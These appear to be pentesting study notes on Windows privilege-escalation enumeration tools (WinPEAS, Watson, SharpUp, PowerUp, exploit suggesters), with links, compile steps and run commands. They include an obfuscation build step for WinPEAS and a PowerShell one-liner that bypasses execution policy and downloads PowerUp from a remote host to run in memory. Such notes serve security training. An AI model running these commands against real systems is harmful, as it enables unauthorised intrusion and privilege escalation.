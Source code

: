 # Windows - Automated Issues Finders

## WinPEAS

- Tool for finding priv esc paths in windows
- Performs a lot of checks to then go through
- uses colour highlighting to find information quickly

https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS

- .exe and .bat file
- can download obfuscated version or compile

### Commands

```
winpeas.exe cmd searchall searchfast #cmd commands, search all filenames and avoid sleepig (noisy - CTFs)
winpeas.exe #Will execute all checks except the ones that use a CMD
winpeas.exe cmd #All checks
winpeas.exe systeminfo userinfo #Only systeminfo and userinfo checks executed
winpeas.exe notcolor #Do not color the output
```

### Compile

- install dotfuscator
- **Compile** winpeas in VisualStudio
- **Open dotfuscator** app
- **Open** in dotfuscator **winPEAS.exe compiled** before and **Microsoft.Win32.TaskScheduler.dll** (is in the same folder as winPEAS.exe)
- Click on **Build**
- The **single, minimized and obfuscated binary** will appear in a **folder called Dotfuscator inside the folder were winPEAS.exe** and the DLL were (this location will be saved by dotfuscator and by default all the following builds will appear in this folder).

## Watson

https://github.com/rasta-mouse/Watson

- Enumerates missing KB's and suggests exploits
- You need to know the version of .net running on the target system

```
C:\windows\microsoft.net\framework\
```



### Compiling

- Open in Visual Studio
- Solution Explorer > Properties > Target Framework
- Make the value align with the version of .net running on the target
- Build the project

### Commands

```
C:/> watson.exe
```

## SharpUp

https://github.com/GhostPack/SharpUp

- C# port of PowerUp

### Compile

- Open the .sln in Visual Studio
- choose "release"
- Build

### commands

```
SharpUp.exe audit
```

## PowerUp

https://github.com/PowerShellMafia/PowerSploit/tree/dev/Privesc

### Commands

```
powershell.exe -nop -exec bypass
Import-Module PowerUp.ps1
Invoke-AllChecks
```

To Download and run in memory:

```
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://ip/PowerUp.ps1');Invoke-AllChecks"
```

## Windows-Exploit-Suggester

https://github.com/AonCyberLabs/Windows-Exploit-Suggester

- You run locally on your machine, and give it the systeminfo input from the system you are reviewing

### Commands

```
windows-exploit-suggester.py --update

windows-exploit-suggester.py --database blah.xlsx --systeminfo blah.txt
```

## Metasploit

- Metasploit has a post exploitation module

```
run post/multi/recon/local_exploit_suggester
```

